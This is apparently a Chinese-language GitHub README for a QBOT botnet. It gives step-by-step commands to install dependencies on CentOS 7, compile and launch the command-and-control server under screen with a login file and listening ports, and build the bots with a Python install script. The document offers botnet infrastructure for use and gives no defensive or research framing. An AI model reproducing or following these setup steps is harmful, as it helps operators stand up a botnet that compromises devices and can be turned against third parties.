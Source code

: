 # 非常哈基米的僵尸网络(QBOT)  
`**首先你得有一个centos 7系统**`  
然后安装依赖  
```bash
curl -o /etc/yum.repos.d/CentOS-Base.repo http://mirrors.aliyun.com/repo/Centos-7.repo
yum update -y
yum install epel-release -y
yum install vim screen gcc perl wget lbzip bzip2 unzip httpd -y
```
## 然后编译cnc主端  
```bash
gcc server.c -o server -pthread
```
## 编译完主端你就可以先运行了
```bash
#创建一个登录文件
vi login.txt
#格式:
用户名 密码
#然后启动主端
screen ./server 监听僵尸端口 线程 telnet连接端口
ctrl+a+d退出
如果你想查看主端可以先输入指令
screen -ls
查看会话
然后
screen -r 会话名
```
## 编译僵尸
```python
python bot_install.py
```
`**完事就是这么简单**`
`**后面僵尸自己弄**`
